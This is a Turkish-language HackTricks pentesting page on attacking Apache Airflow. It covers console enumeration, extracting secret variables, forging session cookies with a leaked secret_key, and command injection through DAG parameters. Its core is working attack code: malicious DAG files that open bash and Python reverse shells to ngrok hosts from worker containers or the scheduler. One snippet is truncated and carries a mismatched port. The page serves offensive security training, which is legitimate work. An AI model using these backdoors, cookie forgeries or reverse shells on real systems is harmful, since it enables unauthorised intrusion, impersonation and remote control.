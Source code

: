# Apache Airflow Güvenliği

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

### Temel Bilgiler

[**Apache Airflow**](https://airflow.apache.org), **veri boru hatlarını veya iş akışlarını düzenlemek ve zamanlamak için bir platform** olarak hizmet vermektedir. Veri boru hatları bağlamında "orchestrasyon" terimi, çeşitli kaynaklardan gelen karmaşık veri iş akışlarını düzenleme, koordine etme ve yönetme sürecini ifade eder. Bu düzenlenmiş veri boru hatlarının temel amacı, işlenmiş ve tüketilebilir veri setleri sağlamaktır. Bu veri setleri, iş zekası araçları, veri bilimi ve makine öğrenimi modelleri gibi birçok uygulama tarafından yaygın olarak kullanılmaktadır ve bunlar büyük veri uygulamalarının işleyişi için temeldir.

Temelde, Apache Airflow, bir şey (olay, cron) **gerçekleştiğinde kodun yürütülmesini zamanlamanıza** olanak tanır.

### Yerel Laboratuvar

#### Docker-Compose

Tam bir apache airflow docker ortamı başlatmak için [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) adresinden **docker-compose yapılandırma dosyasını** kullanabilirsiniz. (Eğer MacOS kullanıyorsanız, docker VM'ye en az 6GB RAM vermeyi unutmayın).

#### Minikube

**Apache Airflow'u çalıştırmanın** kolay bir yolu, **minikube ile çalıştırmaktır**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Yapılandırması

Airflow, yapılandırmasında **hassas bilgileri** saklayabilir veya zayıf yapılandırmalar bulabilirsiniz:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Airflow'a saldırmaya başlamadan önce **izinlerin nasıl çalıştığını** anlamalısınız:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Saldırılar

#### Web Konsolu Sayımı

Eğer **web konsoluna erişiminiz** varsa, aşağıdaki bilgilerden bazılarına veya hepsine erişim sağlayabilirsiniz:

* **Değişkenler** (Özel hassas bilgiler burada saklanabilir)
* **Bağlantılar** (Özel hassas bilgiler burada saklanabilir)
* `http://<airflow>/connection/list/` adresinden erişin
* [**Yapılandırma**](./#airflow-configuration) (Hassas bilgiler, örneğin **`secret_key`** ve şifreler burada saklanabilir)
* **kullanıcılar & roller** listesini görüntüleyin
* **Her DAG'ın kodu** (ilginç bilgiler içerebilir)

#### Değişken Değerlerini Alma

Değişkenler Airflow'da saklanabilir, böylece **DAG'lar** değerlerine **erişebilir**. Bu, diğer platformların gizli bilgilerine benzer. Eğer **yeterli izinleriniz** varsa, bunlara `http://<airflow>/variable/list/` adresinde GUI üzerinden erişebilirsiniz.\
Airflow varsayılan olarak değişkenin değerini GUI'de gösterir, ancak [**şuna**](https://marclamberti.com/blog/variables-with-apache-airflow/) göre, **değerleri** **yıldızlar** olarak görünecek şekilde **değişkenler listesi** ayarlamak mümkündür.

![](<../../.gitbook/assets/image (164).png>)

Ancak, bu **değerler** hala **CLI** üzerinden (DB erişiminiz olmalı), **rastgele DAG** çalıştırarak, **API** ile değişkenler uç noktasına erişerek (API'nin etkinleştirilmesi gerekir) ve **hatta GUI'nin kendisiyle** **alınabilir!**\
Bu değerleri GUI'den erişmek için sadece **erişmek istediğiniz değişkenleri** seçin ve **Eylemler -> Dışa Aktar** seçeneğine tıklayın.\
Başka bir yol, **gizli değere** ulaşmak için **arama filtrelemesi** kullanarak **bruteforce** yapmaktır:

![](<../../.gitbook/assets/image (152).png>)

#### Yetki Yükseltme

Eğer **`expose_config`** yapılandırması **True** olarak ayarlandıysa, **Kullanıcı** rolünden ve **üzerinden** **web'deki yapılandırmayı** **okuyabilirler**. Bu yapılandırmada, **`secret_key`** görünür, bu da geçerli bir kullanıcıya sahip olan herkesin **kendi imzalı çerezini oluşturup başka bir kullanıcı hesabını taklit edebileceği** anlamına gelir.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Arka Kapı (Airflow işçi içinde RCE)

Eğer **DAG'ların kaydedildiği** yere **yazma erişiminiz** varsa, sadece **bir tane oluşturabilirsiniz** ve bu size bir **ters kabuk** gönderecektir.\
Bu ters kabuğun bir **airflow işçi konteyneri** içinde çalıştırılacağını unutmayın:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Arka Kapı (Airflow zamanlayıcısında RCE)

Eğer bir şeyi **kodun kökünde çalıştırılacak şekilde ayarlarsanız**, bu yazının yazıldığı anda, DAG'ın klasörüne yerleştirildikten birkaç saniye sonra **zamanlayıcı tarafından çalıştırılacaktır.**
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG Oluşturma

Eğer **DAG kümesindeki bir makineyi ele geçirirseniz**, `dags/` klasöründe yeni **DAG scriptleri** oluşturabilirsiniz ve bunlar **DAG kümesindeki diğer makinelere kopyalanacaktır.**

#### DAG Kod Enjeksiyonu

GUI'den bir DAG çalıştırdığınızda ona **argümanlar** **geçebilirsiniz.**\
Bu nedenle, eğer DAG düzgün kodlanmamışsa **Komut Enjeksiyonuna karşı savunmasız** olabilir.\
Bu, bu CVE'de olan bir durumdur: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

**DAG'lerde komut enjeksiyonları aramaya başlamak için bilmeniz gereken tek şey**, **parametrelerin** **`dag_run.conf.get("param_name")`** kodu ile **erişildiğidir.**

Ayrıca, aynı zafiyet **değişkenlerle** de meydana gelebilir (yeterli ayrıcalıklara sahip olduğunuzda GUI'de **değişkenlerin değerini kontrol edebilirsiniz**). Değişkenler **şu şekilde erişilir:**
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Eğer bir bash komutu içinde kullanılırlarsa, bir komut enjeksiyonu gerçekleştirebilirsiniz.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
